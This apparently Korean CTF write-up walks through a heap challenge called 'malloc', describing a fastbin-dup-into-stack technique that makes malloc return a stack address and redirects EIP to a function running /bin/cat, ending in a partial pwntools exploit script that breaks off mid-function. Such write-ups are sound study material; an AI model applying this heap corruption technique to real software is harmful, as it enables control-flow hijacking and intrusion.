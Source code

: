 how2heap의 fastbin_dup_into_stack이라는 문제와 아주 비슷한 모습을 띄고 있었다.

바로 이어서 malloc을 해보겠다. 32바이트의 크기로 힙을 할당해보았더니,

![input](http://cfile30.uf.tistory.com/image/993C613E5A43C7340DC069)

아래와 같이 힙의 데이터부분이 오버라이트 되었다.

![input](http://cfile26.uf.tistory.com/image/99C5C13E5A43C7351A0E35)

한번 더 malloc을 해보았더니, 버그가 빵하고 터진다. 아마 chunk의 주소값이 올바르지 않기 때문일 것이다. 

![input](http://cfile5.uf.tistory.com/image/99F8BB3E5A43C73534A793)

heap의 청크 주소값을 스택의 주소값으로 변경을 하면 malloc시 스택에 할당 받게 될 것이다.

처음에 노출된 스택의 주소값을 따라가보았는데, 아래와 같았다.

![input](http://cfile28.uf.tistory.com/image/99A2A23E5A43C7371E2884)

스택을 조금 거슬러 올라가보니, 힙과 상당히 비슷하게 보이는 부분을 찾을 수 있었다.

![input](http://cfile22.uf.tistory.com/image/99F3BE3E5A43C7373491C3)

이 부분에서 오버플로우를 발생시켜 EIP의 주소를 /bin/cat을 실행시켜주는 함수의 주소로 바꾸면 공격에 성공할 것이다.



전체적인 exploit이다.

```python
from pwn import *
 
print("-------------------")
print("------malloc-------")
print("--pwned by pwnWiz--")
print("-------------------")
print("\n")
 
 
context.log_level='debug'
 
binary='./malloc'
s=process('./malloc')
e=ELF(binary)
 
log.info("malloc Loaded..")
 
shellcode=0x400986 #/bin/cat
 
 
def malloc():
    for i in range(2):
        log.info("1.malloc Loaded..")
        s.sendline("1")
        print s.recvuntil(":")
        s.sendline("32")
        log.info("32\n")
        print s.recvuntil(":")
        s.sendline("A")
        log.info("A\n")
        print s.recv(1024)
        print s.recv(1024)
 
def free():
        log.info("2.free Loaded..")
        s.sendline("2")
        print s.recvuntil(":")
```